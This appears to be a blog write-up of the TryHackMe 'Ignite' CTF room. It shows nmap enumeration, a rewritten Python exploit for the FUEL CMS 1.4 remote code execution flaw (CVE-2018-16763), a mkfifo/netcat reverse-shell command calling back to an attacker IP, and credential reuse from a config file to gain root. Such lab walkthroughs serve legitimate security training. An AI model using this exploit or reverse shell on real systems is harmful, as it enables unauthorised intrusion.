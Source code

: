 ```yaml
---
layout: post
title: PenLog - Ignite by TryHackMe
categories: [TryHackMe, Penlog, Write Up, CTF, OSCP]
---
```


## Details

**Platform:** [TryHackMe](https://www.tryhackme.com/)\
**Difficulty:** Easy\
**Link:** [Ignite](https://tryhackme.com/room/ignite)

## Enumeration

Run `nmap` default port scan on target with TCP connect/version/script options:

```bash
$ nmap -vv -Pn -sT -sV -sC 10.10.211.150
```

This results in:

![nmap1](/images/posts/penlog_ignite_by_tryhackme/nmap1.png)
_(**Note:** http-title "Welcome to FUEL CMS".)_

Google "FUEL CMS" and note description on [website](https://www.getfuelcms.com/):

_"The content management system for premium-grade websites."_

Open browser an navigate to target's open http port 80; note FUEL CMS version v1.4:

![fuelcms](/images/posts/penlog_ignite_by_tryhackme/fuelcms.png)

Also note mention of default credentials:

![fuelcms-creds](/images/posts/penlog_ignite_by_tryhackme/fuelcms_creds.png)
_(**Note:** Logging in to the portal proved useless.)_

Taking a chance on this, use `searchsploit` and evaluate results:

```bash
$ searchsploit fuelcms 1.4
...
```

![searchsploit](/images/posts/penlog_ignite_by_tryhackme/searchsploit_fuelcms.png)
_(**Note:** "ss" in the above is a bash alias for `searchsploit`.)_

Download the PoC with EDB ID [47138](https://www.exploit-db.com/exploits/47138):

```bash
$ searchsploit -m 47138
$ dos2unix 47138
```

### 47138 Description

47138 demonstrates a PHP code execution vulnerability where un-trusted input results in 
Remote Code Execution (RCE). Looking at the code, the vulnerable parameter is highlighted by the `burp0_url`
variable:

```python
burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
```

The URL encoded data can be decoded like so:

```bash
$ python -c 'import urllib;print(urllib.unquote("%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27\"+urllib.quote(xxxx)+\"%27%29%2b%2"))'
```

![urldecode-filter](/images/posts/penlog_ignite_by_tryhackme/urldecode_filter.png)

As shown in the decoded PHP code, a call to PHP's `system` results in code execution.

## User Shell

I re-wrote the 47138 PoC (_fuelpwn.py_) and stripped out printing of the GET request response and built-in
support for the Burp Suite proxy:

```python
"""
FUEL CMS v1.4.1 CVE-2018-16763 PoC.

This PoC was derived from: https://www.exploit-db.com/exploits/47138.
"""
import argparse
import urllib
import requests

parser = argparse.ArgumentParser('Fuel CMS v1.4 CVE-2018-16763 PoC')

parser.add_argument('url', type=str, help='URL to target, e.g. http://127.0.0.1')
parser.add_argument('cmd', type=str, help='Command to execute')
args = parser.parse_args()

url=args.url
cmd=args.cmd

payload="'+pi(print($a='system'))+$a('"+cmd+"')+'"
payload_enc=urllib.quote(payload)  # URL encoded payload
filter_path='/fuel/pages/select/?filter='+payload_enc

try:
    _ = requests.get(url+filter_path)
except:
    pass
```
_(**Note:** You can download my port [fuelpwn.py](https://gist.github.com/wulfgarpro/d302038d40e4aab46a5b61d876b01b93).)_

This port simplifies getting a reverse shell.

Start a `nc` reverse listener on port 4444:

```bash
$ nc -vnlp 4444
```

Run _fuelpwn.py_ supplying target URL and command to execute connecting back to the attacking machine - use fifo since `nc` on target does not have support for `-e` (see `man nc`):

```bash
$ python fuelpwn.py http://10.10.211.150 "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.4.9.232 4444 >/tmp/f"
```

![user-shell](/images/posts/penlog_ignite_by_tryhackme/user_shell.png)
_(**Note:** "reverse" in the above is a bash alias for `nc -vnlp 4444`.)_

Upgrade the shell with a PTY:

```bash
$ python -c 'import pty; pty.spawn("/bin/bash")'
$ (Ctrl-Z)
$ stty raw -echo
$ fg
$ export TERM=xterm && reset
```

Get the user _flag.txt_:

![user-flag](/images/posts/penlog_ignite_by_tryhackme/user_flag.png)

## Root Shell

Track down the FUEL CMS _config_ directory and use `grep` to find database password:

![dbpassword](/images/posts/penlog_ignite_by_tryhackme/dbpassword.png)

Perform the same to find username:

![dbusername](/images/posts/penlog_ignite_by_tryhackme/dbusername.png)

Notice the username is _root_; test for password re-use against _root_ user and get _root.txt_:

![root-shell](/images/posts/penlog_ignite_by_tryhackme/root_shell.png)
_(**Note:** supplied password was **mememe**.)_
